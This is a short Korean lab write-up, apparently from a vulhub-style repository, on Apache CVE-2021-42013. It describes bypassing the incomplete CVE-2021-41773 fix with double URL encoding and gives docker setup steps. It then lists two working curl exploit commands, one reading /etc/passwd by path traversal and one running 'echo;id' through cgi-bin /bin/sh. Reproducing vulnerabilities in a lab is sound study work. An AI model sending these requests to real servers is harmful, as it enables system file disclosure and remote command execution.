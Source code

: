 ---

**요약**

- CVE-2021-42013은 CVE-2021-41773의 불완전한 수정으로 인해 발생한 취약점
- Apache는 기본적으로 상위 디렉토리를 의미하는 문자열 “../”에 대한 문자열을 차단함
- 그러나 URL 인코딩을 통해 우회가 가능함
- 기존의 URL 인코딩으로 인해 발생한 취약점을 패치했지만 URL 더블 인코딩으로 우회가 가능한 취약점 발생

**환경 구성 및 실행**

- `docker-compose build`
- `docker-compose up -d`
- `apt install curl` 커맨드로 curl 설치
- /icons 디렉토리를 만든 후 아래와 같은 명령어 실행
- curl -v --path-as-is [http://your-ip:8080/icons/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd](http://your-ip:8080/icons/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/etc/passwd)
- curl -v --data "echo;id" '[http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh](http://your-ip:8080/cgi-bin/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/bin/sh)'

**결과**
![png1](https://github.com/Refrain4/kr-vulhub/assets/90193658/d929f6a8-3adf-4a5f-80e6-9b0b9da54680)

![png2](https://github.com/Refrain4/kr-vulhub/assets/90193658/8106019f-0444-48ee-9ab0-ebd6f856c1dd)
